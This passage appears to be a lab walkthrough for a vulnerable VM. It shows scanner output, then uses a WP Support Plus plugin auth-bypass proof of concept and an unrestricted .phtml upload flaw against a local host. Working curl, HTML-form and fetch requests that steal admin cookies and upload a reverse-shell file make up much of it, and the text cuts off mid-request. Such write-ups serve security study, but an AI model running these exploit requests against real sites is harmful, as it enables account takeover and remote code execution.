 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 – Authenticated SQL Injection
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/f267d78f-f1e1-4210-92e4-39cce2872757
 |      - https://www.exploit-db.com/exploits/40939/
 |      - https://lenonleite.com.br/en/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/
 |      - https://plugins.trac.wordpress.org/changeset/1556644/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution (RCE)
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1
 |      - https://plugins.trac.wordpress.org/changeset/1763596/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.0.3 - Multiple Authenticated SQL Injection
 |     Fixed in: 9.0.3
 |     References:
 |      - https://wpscan.com/vulnerability/cbbdb469-7321-44e4-a83b-cac82b116f20
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1000131
 |      - https://github.com/00theway/exp/blob/master/wordpress/wpsupportplus.md
 |      - https://plugins.trac.wordpress.org/changeset/1814103/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 9.1.2 - Stored XSS
 |     Fixed in: 9.1.2
 |     References:
 |      - https://wpscan.com/vulnerability/e406c3e8-1fab-41fd-845a-104467b0ded4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7299
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15331
 |      - https://cert.kalasag.com.ph/news/research/cve-2019-7299-stored-xss-in-wp-support-plus-responsive-ticket-system/
 |      - https://plugins.trac.wordpress.org/changeset/2024484/wp-support-plus-responsive-ticket-system
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.0 - Privilege Escalation
 |     Fixed in: 8.0.0
 |     References:
 |      - https://wpscan.com/vulnerability/b1808005-0809-4ac7-92c7-1f65e410ac4f
 |      - https://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html
 |      - https://packetstormsecurity.com/files/140413/
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f
 |      - https://plugins.trac.wordpress.org/changeset/1763596
 |
 | Version: 7.1.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.56.85/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.56.85/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:14 <===============================> (23429 / 23429) 100.00% Time: 00:00:14
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentyseventeen
 | Location: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/style.css
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/, status: 500
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.85/g@web/wp-content/themes/twentyseventeen/style.css, Match: 'Version: 2.3'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <==========================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] wp-local
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.56.85/g@web/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 14

[+] Finished: Tue Dec 28 15:40:14 2021
[+] Requests Done: 23699
[+] Cached Requests: 15
[+] Data Sent: 6.366 MB
[+] Data Received: 3.731 MB
[+] Memory used: 303.641 MB
[+] Elapsed time: 00:00:20
                                                                                                                   
```

```shell
feroxbuster -q -u http://192.168.56.85/g@web/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt --rate-limit 100 -d 2 -L 4 -k          
301        9l       28w      325c http://192.168.56.85/g@web/wp-content
301        9l       28w      332c http://192.168.56.85/g@web/wp-content/themes
301        9l       28w      333c http://192.168.56.85/g@web/wp-content/uploads
301        9l       28w      333c http://192.168.56.85/g@web/wp-content/plugins
301        9l       28w      326c http://192.168.56.85/g@web/wp-includes
301        9l       28w      333c http://192.168.56.85/g@web/wp-includes/images
301        9l       28w      333c http://192.168.56.85/g@web/wp-content/upgrade
301        9l       28w      330c http://192.168.56.85/g@web/wp-includes/css
301        9l       28w      329c http://192.168.56.85/g@web/wp-includes/js
301        9l       28w      333c http://192.168.56.85/g@web/wp-includes/blocks
301        9l       28w      334c http://192.168.56.85/g@web/wp-includes/widgets
301        9l       28w      332c http://192.168.56.85/g@web/wp-includes/fonts
301        9l       28w      336c http://192.168.56.85/g@web/wp-includes/customize
301        9l       28w      339c http://192.168.56.85/g@web/wp-includes/certificates
301        9l       28w      323c http://192.168.56.85/g@web/wp-admin
301        9l       28w      330c http://192.168.56.85/g@web/wp-admin/images
301        9l       28w      328c http://192.168.56.85/g@web/wp-admin/user
301        9l       28w      331c http://192.168.56.85/g@web/wp-admin/network
301        9l       28w      327c http://192.168.56.85/g@web/wp-admin/css
301        9l       28w      332c http://192.168.56.85/g@web/wp-admin/includes
301        9l       28w      326c http://192.168.56.85/g@web/wp-admin/js
301        9l       28w      331c http://192.168.56.85/g@web/wp-includes/Text
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_192_168_56_85_g@web_-1640686344.state ...
Scanning: http://192.168.56.85/g@web/
Scanning: http://192.168.56.85/g@web/wp-content
Scanning: http://192.168.56.85/g@web/wp-includes
Scanning: http://192.168.56.85/g@web/wp-admin
                                                                                                                   
```


```shell
gobuster dir --url http://$RHOST/g@web -x js,png,py,txt,php,log,bak --wordlist=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -b 404,403 -q 
/index.php            (Status: 301) [Size: 0] [--> http://192.168.56.85/g@web/]
/wp-content           (Status: 301) [Size: 325] [--> http://192.168.56.85/g@web/wp-content/]
/wp-login.php         (Status: 200) [Size: 4660]                                            
/license.txt          (Status: 200) [Size: 19935]                                           
/wp-includes          (Status: 301) [Size: 326] [--> http://192.168.56.85/g@web/wp-includes/]
/wp-trackback.php     (Status: 200) [Size: 135]                                              
/wp-admin             (Status: 301) [Size: 323] [--> http://192.168.56.85/g@web/wp-admin/]   
/xmlrpc.php           (Status: 405) [Size: 42]                                               
/wp-signup.php        (Status: 302) [Size: 0] [--> http://192.168.56.85/g@web/wp-login.php?action=register]
                                                                                                                   
```


```shell
ffuf -u http://$RHOST/g@web/FUZZ.php -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt  -fc 403,404,401,400 | grep -vi "Size: 0"    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.56.85/g@web/FUZZ.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 403,404,401,400
________________________________________________

wp-login                [Status: 200, Size: 4660, Words: 214, Lines: 83]
wp-trackback            [Status: 200, Size: 135, Words: 11, Lines: 5]
wp-links-opml           [Status: 200, Size: 230, Words: 12, Lines: 12]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1]
:: Progress: [107982/107982] :: Job [1/1] :: 3544 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
                                                                                                                   
```

```shell
ffuf -u http://$RHOST/g@web/FUZZ.txt -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt  -fc 403,404,401,400 -s | grep -vi "Size: 0"
license

                                                                                                                   
```

```shell
ffuf -u http://$RHOST/g@web/FUZZ.js -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt  -fc 403,404,401,400 -s

                                                                                                                   
```



## Responsive Ticket System

wpscan has this to say about responsive ticket system:

```shell
[+] wp-support-plus-responsive-ticket-system
 | Location: http://192.168.56.85/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
 |
...
 |
 | [!] Title: WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution
 |     Fixed in: 8.0.8
 |     References:
 |      - https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f
 |      - https://plugins.trac.wordpress.org/changeset/1763596
...
```

### `http://192.168.56.85/g@web/wp-content/plugins/wp-support-plus-responsive-ticket-system/`



### searching for exploits

```shell
searchsploit responsive ticket system
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 2.0 - Multiple Vulnera | php/webapps/34589.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Esca | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection  | php/webapps/40939.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
                                                                                                                   
```

```shell
searchsploit -m php/webapps/41006.txt
  Exploit: WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41006
     Path: /usr/share/exploitdb/exploits/php/webapps/41006.txt
File Type: ASCII text

Copied to: /home/f0c1s/vuln-hubs/hackNos/player-1.1/41006.txt
                                                                                                                   
```

### exploit to get admin access

```shell
cat 41006.txt                  
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 Privilege Escalation
# Date: 10-01-2017
# Software Link: https://wordpress.org/plugins/wp-support-plus-responsive-ticket-system/
# Exploit Author: Kacper Szurek
# Contact: http://twitter.com/KacperSzurek
# Website: http://security.szurek.pl/
# Category: web

1. Description

You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().

http://security.szurek.pl/wp-support-plus-responsive-ticket-system-713-privilege-escalation.html

2. Proof of Concept

<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="administrator">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

Then you can go to admin panel.                                                                                                                   
```

#### Get cookies

```shell
curl -v -X POST -d 'username=wp-local&email=sth&action=loginGuestFacebook'  http://192.168.56.85/g@web/wp-admin/admin-ajax.php
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 192.168.56.85:80...
* Connected to 192.168.56.85 (192.168.56.85) port 80 (#0)
> POST /g@web/wp-admin/admin-ajax.php HTTP/1.1
> Host: 192.168.56.85
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Length: 53
> Content-Type: application/x-www-form-urlencoded
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 28 Dec 2021 11:22:40 GMT
< Server: Apache/2.4.38 (Debian)
< X-Robots-Tag: noindex
< X-Content-Type-Options: nosniff
< Expires: Wed, 11 Jan 1984 05:00:00 GMT
< Cache-Control: no-cache, must-revalidate, max-age=0
< X-Frame-Options: SAMEORIGIN
< Referrer-Policy: strict-origin-when-cross-origin
< Set-Cookie: wordpress_c2c223ba385e99f28ec25035b2629d7a=wp-local%7C1640863360%7CwXcFLLTB8msCvhmMa68Sr68BFwzvS9SiibTpCr7PSXs%7C2cbcfe18d48e7e04bfc77c6e71e8e7b69cfa5e7e9893f251f232c24b7ab192f4; path=/g@web/wp-content/plugins; HttpOnly
< Set-Cookie: wordpress_c2c223ba385e99f28ec25035b2629d7a=wp-local%7C1640863360%7CwXcFLLTB8msCvhmMa68Sr68BFwzvS9SiibTpCr7PSXs%7C2cbcfe18d48e7e04bfc77c6e71e8e7b69cfa5e7e9893f251f232c24b7ab192f4; path=/g@web/wp-admin; HttpOnly
< Set-Cookie: wordpress_logged_in_c2c223ba385e99f28ec25035b2629d7a=wp-local%7C1640863360%7CwXcFLLTB8msCvhmMa68Sr68BFwzvS9SiibTpCr7PSXs%7C0cf54612721bb8b61f5659417cb2830674672bc351c90e38f45fbbd4a5382319; path=/g@web/; HttpOnly
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 192.168.56.85 left intact
                                                                                                                   
```

#### Create a web page and do this from web

It is just a bit easier.

```shell
cat get-login.html  
<p>The admin is wp-local, we know this from wpscan</p>

<form method="post" action="http://192.168.56.85/g@web/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="wp-local">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>

                                                                                                                   
```





Now we are admin, we need to RCE.

### wp exploit - WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution (RCE)

WP Support Plus Responsive Ticket System < 8.0.8 - Remote Code Execution (RCE)

- [https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f or https://wpscan.com/vulnerability/8949](https://wpscan.com/vulnerability/8949)
- [source code at 8.0.7: https://plugins.trac.wordpress.org/browser/wp-support-plus-responsive-ticket-system?rev=1661351](https://plugins.trac.wordpress.org/browser/wp-support-plus-responsive-ticket-system?rev=1661351)



WP Support Plus Responsive Ticket System <= 8.0.7 allows anyone to upload PHP files with extensions like ".phtml", ".php4", ".php5", and so on, all of which are run as if their extension was ".php" on most hosting platforms.

This is because "includes/admin/attachment/uploadAttachment.php" contains this code:

```php
...
    switch ($extension){
        case 'exe':
        case 'php':
        case 'js':
            $isError=true;
            $errorMessege=__('Error: file format not supported!','wp-support-plus-responsive-ticket-system');
...
```

But it does not check for other extensions like ".phtml". 

In addition, it saves the file with a predictable name based on the timestamp, and anyone can load the file and run the code it contains.

> Proof of Concept
```html

<form method="post" enctype="multipart/form-data" action="https://example.com/wp-admin/admin-ajax.php">
    <input type="hidden" name="action" value="wpsp_upload_attachment">
    Choose a file ending with .phtml:
    <input type="file" name="0">
    <input type="submit" value="Submit">
</form>
```

> After doing this, an uploaded file can be accessed at, say: `http://$IP/WORDPRESS/wp-content/uploads/wpsp/1510248571_filename.phtml`

## generated web page

```html
<form method="post" enctype="multipart/form-data" action="http://192.168.56.85/g@web/wp-admin/admin-ajax.php">
    <input type="hidden" name="action" value="wpsp_upload_attachment">
    Choose a file ending with .phtml:
    <input type="file" name="0">
    <input type="submit" value="Submit">
</form>
```

```shell
cat upload-rshell.html 
<form method="post" enctype="multipart/form-data" action="http://192.168.56.85/g@web/wp-admin/admin-ajax.php">
    <input type="hidden" name="action" value="wpsp_upload_attachment">
    Choose a file ending with .phtml:
    <input type="file" name="0">
    <input type="submit" value="Submit">
</form>
                                                                                                                   
```





You can notice the file has been uploaded.

## `.phtml`

Fancy way of saying more html, but still is php.

[What is .phtml](https://stackoverflow.com/questions/11859015/what-is-phtml-and-when-should-i-use-a-phtml-extension-rather-than-php)

## curl

```bash
## general idea
curl -X POST -v -F wpsp_upload_attachment=@localfilename -F name="some name" URL

curl -X POST -v -F wpsp_upload_attachment=@rshell.phtml -F name="rshell" http://192.168.56.85/g@web/wp-admin/admin-ajax.php

# this is copied from the html page network tab in devtools
curl 'http://192.168.56.85/g@web/wp-admin/admin-ajax.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: multipart/form-data; boundary=---------------------------57121678915579519494221609516' -H 'Connection: keep-alive' -H 'Cookie: wordpress_c2c223ba385e99f28ec25035b2629d7a=wp-local%7C1640863903%7CnFPPJvOEnSncWn9mqGCsPVtQi8re8iKSz7ufl7N3nMb%7Ce87072d5de6b1e799765f6d0325ae8dd566b6b51f73b444ff9f9f4293e9a7fa6; wordpress_logged_in_c2c223ba385e99f28ec25035b2629d7a=wp-local%7C1640863903%7CnFPPJvOEnSncWn9mqGCsPVtQi8re8iKSz7ufl7N3nMb%7C28a6529aebf8f17d29fa322748f984143e544658cf1f750c6144257f74483a5c; wp-settings-1=libraryContent%3Dbrowse; wp-settings-time-1=1640691120' -H 'Upgrade-Insecure-Requests: 1' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-binary $'-----------------------------57121678915579519494221609516\r\nContent-Disposition: form-data; name="action"\r\n\r\nwpsp_upload_attachment\r\n-----------------------------57121678915579519494221609516\r\nContent-Disposition: form-data; name="0"; filename="rshell.phtml"\r\nContent-Type: application/octet-stream\r\n\r\n-----------------------------57121678915579519494221609516--\r\n'
```

```javascript
await fetch("http://192.168.56.85/g@web/wp-admin/admin-ajax.php", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "multipart/form-data; boundary=---------------------------57121678915579519494221609516",
        "Upgrade-Insecure-Requests": "1",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
